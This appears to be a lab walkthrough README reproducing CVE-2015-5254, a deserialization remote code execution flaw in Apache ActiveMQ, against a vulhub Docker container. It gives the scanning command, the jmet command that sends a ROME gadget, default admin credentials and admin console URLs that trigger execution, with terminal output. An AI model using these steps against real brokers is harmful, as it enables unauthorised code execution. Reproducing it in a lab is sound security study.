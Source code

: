 # CVE-2015-5254 ActiveMQ  Deserialization RCE

[![asciicast](https://asciinema.org/a/pkjnKBTgESrwJ1MZk5CDkVOB9.svg)](https://asciinema.org/a/pkjnKBTgESrwJ1MZk5CDkVOB9)

## 0x01 sure port 61616 is open
### nmap  -p 61616 -Pn -T5 -n -sC -sV 10.10.20.166
```
root@kali:~# nmap  -p 61616 -Pn -T5 -n -sC -sV 10.10.20.166
Starting Nmap 7.70 ( https://nmap.org ) at 2019-08-30 02:05 EDT
Nmap scan report for 10.10.20.166
Host is up (0.00022s latency).

PORT      STATE SERVICE  VERSION
61616/tcp open  apachemq ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
|     MaxFrameSize
|     CacheSize
|     CacheEnabled
|     SizePrefixDisabled
|     MaxInactivityDurationInitalDelay
|     TcpNoDelayEnabled
|     MaxInactivityDuration
|     TightEncodingEnabled
|_    StackTraceEnabled
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port61616-TCP:V=7.70%I=7%D=8/30%Time=5D68BCBA%P=x86_64-pc-linux-gnu%r(N
SF:ULL,F4,"\0\0\0\xf0\x01ActiveMQ\0\0\0\n\x01\0\0\0\xde\0\0\0\t\0\x0cMaxFr
SF:ameSize\x06\0\0\0\0\x06@\0\0\0\tCacheSize\x05\0\0\x04\0\0\x0cCacheEnabl
SF:ed\x01\x01\0\x12SizePrefixDisabled\x01\0\0\x20MaxInactivityDurationInit
SF:alDelay\x06\0\0\0\0\0\0'\x10\0\x11TcpNoDelayEnabled\x01\x01\0\x15MaxIna
SF:ctivityDuration\x06\0\0\0\0\0\0u0\0\x14TightEncodingEnabled\x01\x01\0\x
SF:11StackTraceEnabled\x01\x01");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.52 seconds
root@kali:~#

```

## 0x02 send serialization data



`java.nio.file.NoSuchFileException: external`

`root@kali:~/jar#   mkdir external`

`root@kali:~/jar#   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 10.10.20.166 61616`

![](./payload.jpg)

```
root@kali:~/jar# java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 10.10.20.166 61616
ERROR d.c.j.JMET [main] Failed to setup external libraries!
java.nio.file.NoSuchFileException: external
        at sun.nio.fs.UnixException.translateToIOException(UnixException.java:86) ~[?:1.8.0_60]
        at sun.nio.fs.UnixException.rethrowAsIOException(UnixException.java:102) ~[?:1.8.0_60]
        at sun.nio.fs.UnixException.rethrowAsIOException(UnixException.java:107) ~[?:1.8.0_60]
        at sun.nio.fs.UnixFileSystemProvider.newDirectoryStream(UnixFileSystemProvider.java:427) ~[?:1.8.0_60]
        at java.nio.file.Files.newDirectoryStream(Files.java:525) ~[?:1.8.0_60]
        at de.codewhite.jmet.JMET.setupExternalLibs(JMET.java:174) [jmet-0.1.0-all.jar:?]
        at de.codewhite.jmet.JMET.setup(JMET.java:118) [jmet-0.1.0-all.jar:?]
        at de.codewhite.jmet.JMET.main(JMET.java:58) [jmet-0.1.0-all.jar:?]
INFO d.c.j.t.JMSTarget [main] Connected with ID: ID:kali-39017-1567145443876-0:1
INFO d.c.j.t.JMSTarget [main] Sent gadget "ROME" with command: "touch /tmp/success"
INFO d.c.j.t.JMSTarget [main] Shutting down connection ID:kali-39017-1567145443876-0:1
root@kali:~/jar# mkdir external
root@kali:~/jar# java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 10.10.20.166 61616
INFO d.c.j.t.JMSTarget [main] Connected with ID: ID:kali-36275-1567145554620-0:1
INFO d.c.j.t.JMSTarget [main] Sent gadget "ROME" with command: "touch /tmp/success"
INFO d.c.j.t.JMSTarget [main] Shutting down connection ID:kali-36275-1567145554620-0:1
root@kali:~/jar#

```

## 0x03 login admin,then click message ID Execute command
`default password: admin/admin`

`http://10.10.20.166:8161/admin/browse.jsp?JMSDestination=event`

![](./event.jpg)

### Then F5

![](./event2.jpg)

`http://10.10.20.166:8161/admin/message.jsp?id=ID%3akali-36275-1567145554620-1%3a1%3a1%3a1%3a1&JMSDestination=event`

![](./message.jpg)

### touch /tmp/success

```
root@kali:~/jar# docker ps -a
CONTAINER ID        IMAGE                    COMMAND                  CREATED             STATUS              PORTS                                              NAMES
6dc7032bab70        vulhub/activemq:5.11.1   "/bin/sh -c 'bin/act…"   32 minutes ago      Up 32 minutes       0.0.0.0:8161->8161/tcp, 0.0.0.0:61616->61616/tcp   cve-2015-5254_activemq_1
26e4f8225dcd        vulhub/jboss:as-6.1.0    "/run.sh"                3 days ago          Up 3 days           0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->9990/tcp     jmxinvokerservlet-deserialization_jboss_1
8a45bc8d8915        mongo                    "docker-entrypoint.s…"   3 days ago          Up 3 days           0.0.0.0:27017->27017/tcp                           docker_mongodb
root@kali:~/jar# docker exec -it 6dc7032bab70 /bin/bash
root@6dc7032bab70:/opt/apache-activemq-5.11.1# cd /tmp
root@6dc7032bab70:/tmp# ls
hsperfdata_root  success
root@6dc7032bab70:/tmp#

```

## No serialization Success

 Message Details 
 
 ```
 Cannot display ObjectMessage body. 
 Reason: Failed to build body from content. 
 Serializable class not available to broker.
 Reason: java.lang.ClassNotFoundException: Forbidden class com.sun.syndication.feed.impl.ObjectBean! 
 This class is not trusted to be serialized as ObjectMessage payload. Please take a look at http://activemq.apache.org/objectmessage.html for more information on how to configure trusted classes.
 ```
 
 ```
 无法显示ObjectMessage正文。 
 原因：无法从内容构建正文。 
 可序列化的类不可用于代理。 
 原因：java.lang.ClassNotFoundException：Forbidden class com.sun.syndication.feed.impl.ObjectBean！ 
 不信任此类被序列化为ObjectMessage有效内容。
 ```
 ![](./no_success.jpg)

## 参考链接：
https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2015-5254/README.zh-cn.md

https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
